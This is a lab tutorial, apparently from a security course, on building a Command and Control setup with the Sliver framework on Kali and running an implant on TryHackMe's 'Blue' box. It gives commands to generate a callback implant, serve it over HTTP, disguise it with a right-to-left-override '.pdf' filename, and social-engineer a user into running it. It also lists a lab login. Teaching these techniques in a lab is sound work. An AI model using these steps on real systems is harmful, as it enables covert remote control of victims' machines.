 # Sliver C2 platform and Kali

## Pieces of a typical Command and Control attack
There are three pieces to a typical C2 setup:
1. A server which accepts incoming connections from a compromised machine.
2. A client that the threat actor uses to connect, through the C2 server, to the compromised machine.
3. The implant or beacon which is run on the compromised machine.

Let's start building our C2 system.

On Kali, first do:
```sudo apt install sliver```

Next, make sure your networking is in place. For instance, if you are connecting to a host over a VPN do that now and then execute:

```ip a```

and record the relevant ip address.

Finally, let's make a directory like ```sliver``` and then ```cd``` into it.

### 1. Starting up the sliver server

For piece 1, we start the server and then craft the exploit so that it knows to call home to this.
```sliver-server```

### 2. Start an http server as your C2 server
```http```

This should bind to port 80. If not, change the port as needed.

### 3. Create an implant
We need to create an implant that phones home to our server. 

```
generate -b http://10.6.1.70
```

Then execute 

```implants``` 

to ensure that the implant is created and pointing to the correct server. Note the ```Name``` of the implant.

### 4. Get the implant to the user

In pentesting, this is where you need to get creative and do a bit of social engineering to encourage the user to download and execute this file. It could be via email, messaging, etc. 

For the sake of this demo, open a shell and find where your implant is located. Execute:

```python3 -m http.server``` 

to start a web server which can serve this implant. It is likely running at port 8000.

```document\u202Efdp.exe```

### 5. DEMO: Using THM's Box
We used the ```Blue``` box to learn about RCE's and metasploit. Let's also try it here.

Start ```Blue``` on THM and record the IP address of the box.

Remote desktop into the machine using:

```rdesktop IP_ADDRESS```

Log in as ```Jon``` with ```alqfna22``` as a password. (How did you get this?)

Open a web browser and connect back to your Kali box at port, something like
```http://10.6.1.70:8000```

Find the implant. Download it and run it. pwned!

### 6. Watch for connections on your C2 server.

If this all works, you should see a new session on the sliver-server. Type

```use``` to start working with this session.

Do commands like ```ls``` and ```whoami``` from the prompt.

Try taking a screen shot of the machine. 

Can you get the flags from this machine this way?

### 7. What is next?

#### RED TEAM: 
* How would you get this payload to the user? What tactics would you use? 
* What challenges do you think you will need to overcome?
* You've just scored your first implant inside the corporate IT network. What is your plan of attack from here?


#### BLUE TEAM: 

* How do you prevent C2 implants?
* How do you detect C2 implants?
* How do protect against the next move of the red team after successfully scoring a C2 implant?


